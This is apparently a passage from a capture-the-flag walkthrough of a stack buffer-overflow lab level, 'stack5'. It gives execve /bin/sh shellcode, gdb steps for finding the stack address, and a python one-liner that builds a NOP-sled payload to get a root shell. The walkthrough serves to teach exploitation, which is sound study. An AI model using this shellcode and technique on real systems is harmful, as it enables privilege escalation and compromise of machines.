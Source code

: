 Let us use this shell code: (taken from internet)

    "\\x31\\xc0\\x31\\xdb\\xb0\\x06\\xcd\\x80\\x53\\x68/tty\\x68/dev\\x89\\xe3\\x31\\xc9\\x66\\xb9\\x12\\x27\\xb0\\x05\\xcd\\x80\\x31\\xc0\\x50\\x68//sh\\x68/bin\\x89\\xe3\\x50\\x53\\x89\\xe1\\x99\\xb0\\x0b\\xcd\\x80"

To determine the memory adress of 'ESP' (where buffer array starts) , we will run the following commands:

> gdb stack5

We’ll want to set a breakpoint at main (the main function of the program) so that when the program runs we can see what the stack looks like. 

>(gdb) b main  
(gdb) run

when the breakpoint is hit, print the value of the stack pointer (ESP) to find the address of the buffer array

>(gdb) p $esp

The output will be " $1 = (void \*) 0xbffff760 " represents the starting address of the buffer array

Now, similar to the stack4 we target the return address of the main function and overflow the buffer into it

we have already got the 76 to fill the buffer up till EIP  

>(python3 -c "import sys; sys.stdout.buffer.write(b'\\x90'\*76 + b'\\x00\\xf8\\xff\\xbf' + b'\\x90'\*30 + b'\\x31\\xc0\\x31\\xdb\\xb0\\x06\\xcd\\x80\\x53\\x68/tty\\x68/dev\\x89\\xe3\\x31\\xc9\\x66\\xb9\\x12\\x27\\xb0\\x05\\xcd\\x80\\x31\\xc0\\x50\\x68//sh\\x68/bin\\x89\\xe3\\x50\\x53\\x89\\xe1\\x99\\xb0\\x0b\\xcd\\x80')") | ./stack5

  

The NOP instruction (\\x90 in hexadecimal) is used to create a sled for the program to slide down until it hits the shellcode.

NOP sled increases the chances of hitting the shellcode succesfully , even if the exact return address isn't perfectly accurate.  

'\\x00\\xf8\\xff\\xbf' is the address in little-endian format where we want EIP to be jumped to after the buffer overflow happens  

These additional '\\x90'\*30 after the return address is to ensure the execution flow reaches the shellcode smoothly.

Next one is the actual shellcode.

So finally runinng this command will give us a shell prompt (#).

This prompt indicates that we now have gained root access. We can verify this by using prompt like "whoami"

## stack 6:

  

  